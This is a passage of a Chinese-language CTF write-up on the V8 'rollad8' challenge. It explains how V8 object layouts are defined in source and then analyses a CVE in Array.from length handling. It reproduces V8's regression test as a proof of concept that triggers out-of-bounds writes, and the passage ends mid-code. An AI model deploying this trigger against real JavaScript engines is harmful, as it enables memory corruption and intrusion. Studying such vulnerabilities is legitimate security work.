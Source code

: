 在[src/objects.h](https://github.com/v8/v8/blob/master/src/objects.h)中有一段注释，说明了各个对象之间的关系，这里的每一个对象都表示了一个js里的对象，然而问题在于，我们依然无法从这里看出来每一个对象具体的layout是如何的。

在每个对象中都有个`layout description`，用一些常量说明了各个offset，例如`JSObject`:<br>
2784行：

```
// Layout description.
  static const int kElementsOffset = JSReceiver::kHeaderSize;
  static const int kHeaderSize = kElementsOffset + kPointerSize;

  STATIC_ASSERT(kHeaderSize == Internals::kJSObjectHeaderSize);
  static const int kMaxInObjectProperties =
      (kMaxInstanceSize - kHeaderSize) &gt;&gt; kPointerSizeLog2;
  STATIC_ASSERT(kMaxInObjectProperties &lt;= kMaxNumberOfDescriptors);
  // TODO(cbruni): Revisit calculation of the max supported embedder fields.
  static const int kMaxEmbedderFields =
      ((1 &lt;&lt; kFirstInobjectPropertyOffsetBitCount) - 1 - kHeaderSize) &gt;&gt;
      kPointerSizeLog2;
STATIC_ASSERT(kMaxEmbedderFields &lt;= kMaxInObjectProperties);
```

这里由于`JSObject`是继承于`JSReceiver`的，所以首先是`JSReceiver`的各种东西所占用的大小，用到的是`JSReceiver::kHeaderSize`，也就是说首先是`JSReceiver`的fields，之后是一个pointer，因为`kHeaderSize = kElementsOffset + kPointerSize`.

其他的object可能位于其他地方，例如`JSArrayBuffer`就没有位于`objects.h`中，不过都可以用这种方法来找出layout description。可惜这样的方法依然不能知道每一个field的具体类型和用法，这里可能需要查看其他地方的代码，目前我还没有找到。



## 回到题目

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

好了，到现在，基础的部分我们已经有了一些了解，回到题目来进行一下分析。

`rollad8`这个题目对应了一个cve，patch相关的内容可以在[这里](https://chromium.googlesource.com/v8/v8/+/b5da57a06de8791693c248b7aafc734861a3785d)(google的source，可能需要非常规手段访问)找到。

根据描述:

```
Always use the runtime to set the length on an array if it doesn't match
the expected length after populating it using Array.from.

```

可以看出是length相关的问题，在这里也给出了回归测试，可以当做poc进行使用:

```
// Copyright 2018 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.
// Tests that creating an iterator that shrinks the array populated by
// Array.from does not lead to out of bounds writes.
let oobArray = [];
let maxSize = 1028 * 8;
Array.from.call(function() `{` return oobArray `}`, `{`[Symbol.iterator] : _ =&gt; (
  `{`
    counter : 0,
    next() `{`
      let result = this.counter++;
      if (this.counter &gt; maxSize) `{`
        oobArray.length = 0;
        return `{`done: true`}`;
      `}` else `{`
        return `{`value: result, done: false`}`;
      `}`
```